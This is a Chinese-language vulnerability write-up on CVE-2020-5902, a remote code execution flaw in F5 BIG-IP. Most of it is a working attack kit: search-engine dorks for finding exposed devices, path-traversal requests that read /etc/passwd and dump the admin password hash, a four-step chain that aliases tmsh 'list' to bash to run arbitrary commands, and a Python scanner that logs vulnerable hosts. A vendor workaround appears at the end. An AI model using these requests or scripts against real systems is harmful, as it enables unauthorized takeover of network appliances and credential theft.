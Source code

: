 ```yaml
---
categories:
    - RCE
tags:
    - F5
    - RCE
---
```

## 漏洞描述
CVE ID：CVE-2020-5902

类型：远程代码执行

危险级别：高危

影响范围：


```
F5 BIG-IP 15.1.0
F5 BIG-IP 15.0.0
F5 BIG-IP 14.1.0-14.1.2
F5 BIG-IP 13.1.0-13.1.3
F5 BIG-IP 12.1.0-12.1.5
F5 BIG-IP 11.6.1-11.6.5
```
## 漏洞详情
F5 BIG-IP是美国F5公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。BIG-IP提供了应用程序加速、负载均衡、速率调整、SSL卸载和Web应用程序防护功能。该产品已被许多公司使用，F5声称全球50强公司中有48家是其客户。
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/7-6/1.png)

网络安全公司Positive Technologies的研究人员发现了BIG-IP应用交付系统（ADC）的配置接口中的一个远程代码执行漏洞（CVE-2020-5902），CVSS评分10分。

攻击者可利用该漏洞执行任意系统命令、创建或删除文件、禁用服务、执行任意的Java代码,可完全控制目标系统。



![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/7-6/2.png)

## 网络资产查找
```
shodan
http.favicon.hash:-335242539
http.title:"BIG-IP&reg;- Redirect"
fofa
title="BIG-IP&reg;- Redirect"
censys
443.https.get.body_sha256:5d78eb6fa93b995f9a39f90b6fb32f016e80dbcda8eb71a17994678692585ee5
443.https.get.title:"BIG-IP&reg;- Redirect"
google
inurl:"tmui/login.jsp"
intitle:"BIG-IP" inurl:"tmui"
```

## 漏洞利用:
CVE-2020-5902 POC:

```
/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp 

/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse

curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```
```
Read File: 
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/7-6/3.png)

```
{"success":false, "message":"Tabset 123 does not exist"}
```


![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/7-6/4.png)
响应包：

```
{"output":"root:x:0:0:root:\/root:\/bin\/bash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/sbin\/nologin\nnobody:x:99:99:Nobody:\/:\/sbin\/nologin\ntmshnobody:x:32765:32765:tmshnobody:\/:\/sbin\/nologin\nadmin:x:0:500:Admin User:\/home\/admin:\/usr\/bin\/tmsh\nvcsa:x:69:69:virtual console memory owner:\/dev:\/sbin\/nologin\ndbus:x:81:81:System message bus:\/:\/sbin\/nologin\nsystemd-bus-proxy:x:974:998:systemd Bus Proxy:\/:\/sbin\/nologin\nsystemd-network:x:192:192:systemd Network Management:\/:\/sbin\/nologin\npolkitd:x:27:27:User for polkitd:\/:\/sbin\/nologin\nnslcd:x:65:55:LDAP Client User:\/:\/sbin\/nologin\ntss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:\/dev\/null:\/sbin\/nologin\npostgres:x:26:26:PostgreSQL Server:\/var\/local\/pgsql\/data:\/sbin\/nologin\ntomcat:x:91:91:Apache Tomcat:\/usr\/share\/tomcat:\/sbin\/nologin\nhsqldb:x:96:96::\/var\/lib\/hsqldb:\/sbin\/nologin\nsshd:x:74:74:Privilege-separated SSH:\/var\/empty\/sshd:\/sbin\/nologin\nrpc:x:32:32:Rpcbind Daemon:\/var\/lib\/rpcbind:\/sbin\/nologin\nntp:x:38:38::\/etc\/ntp:\/sbin\/nologin\nf5_remoteuser:x:499:499:f5 remote user account:\/home\/f5_remoteuser:\/sbin\/nologin\ntcpdump:x:72:72::\/:\/sbin\/nologin\noprofile:x:16:16:Special user account to be used by OProfile:\/:\/sbin\/nologin\nsdm:x:191:996:sdmuser:\/var\/sdm:\/bin\/false\nnamed:x:25:25:Named:\/var\/named:\/bin\/false\napache:x:48:48:Apache:\/usr\/local\/www:\/sbin\/nologin\nsyscheck:x:199:10::\/:\/sbin\/nologin\nmysql:x:98:98:MySQL server:\/var\/lib\/mysql:\/sbin\/nologin\nrestnoded:x:198:198::\/:\/sbin\/nologin\n"}
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/7-6/5.png)
响应包：
```
{"error":"","output":"auth user admin {\n description \"Admin User\"\n encrypted-password $6$ENqr2e1s$.znM3vaxt0KaavRdPGJdt.9ViXTjaDdgZqZsKCr2W\/NRAbwLu4rGHZTLo839U7QEQR0Z\/LgpXVwULoBkqW2Bw.\n partition Common\n partition-access {\n all-partitions {\n role admin\n }\n }\n shell tmsh\n}\n"}
```
exp:

```
1. 修改alias劫持list命令为bash
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash

2. 写入bash文件
/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/xxx&content=id

3. 执行bash文件
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/xxx

4. 还原list命令
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/7-6/6.png)

## poc 脚本
python:
```
import requests
import re
import ssl
import json
requests.packages.urllib3.disable_warnings()
ssl._create_default_https_context = ssl._create_unverified_context

def check(ip, port):
    try:
        r = requests.get('https://{}:{}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'.format(ip, port), verify=False, timeout=10)
        if 'root' in json.loads(r.text)["output"]:
            r = requests.get('https://{}:{}/tmui/login.jsp'.format(ip, port), verify=False, timeout=10)
            hostname = re.search(r'<p\stitle=\"(.*?)\">', r.text).group(1).strip().lower()
            print('{} : {} - {} is vulnerable!'.format(ip, port, hostname))
            with open('result.txt', 'a+') as f:
                f.write('{}:{}  - {}\n'.format(ip, port, hostname))
        else:
            print('{} : {} is not vulnerable'.format(ip, port))
    except KeyboardInterrupt:
        exit('User aborted!')
    except Exception as e:
        print('{} : {} is not vulnerable'.format(ip, port))
check("xxxx","8443")
```
shell:

```
curl --silent --insecure 'https://[ip]/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=Vulnerable' | \
grep -q Vulnerable && \
printf '\033[0;31mVulnerable\n' || \
printf '\033[0;32mNot Vulnerable\n'
```


## 修复建议
目前厂商发布了该软件11.x版本，12.x版本，13.x版本，14.x版本和15.1.0版本的修复措施，15.0.0版本的修复措施暂未发布。

临时措施:

All network interfaces:

为防止未经身份验证的攻击者利用此漏洞，请将LocationMatch配置元素添加到httpd。请执行以下步骤：

注意：经过身份验证的用户将仍然能够利用此漏洞，而无需考虑其特权级别。

1. 通过输入以下命令登录到TMOS Shell（tmsh）：
```
Tmsh
```
2. 通过输入以下命令来编辑httpd属性：

```
edit /sys httpd all-properties
```
3. 找到include部分并添加以下内容：

```
include '
<LocationMatch ".*\.\.;.*">
Redirect 404 /
</LocationMatch>
'
```
4. 输入以下命令，保存到配置文件中：

```
Esc
:wq!
```
5. 输入以下命令来保存配置：

```
save /sys config
```

6. 输入以下命令重新启动httpd服务：

```
restart sys service httpd
Self IPs：
```
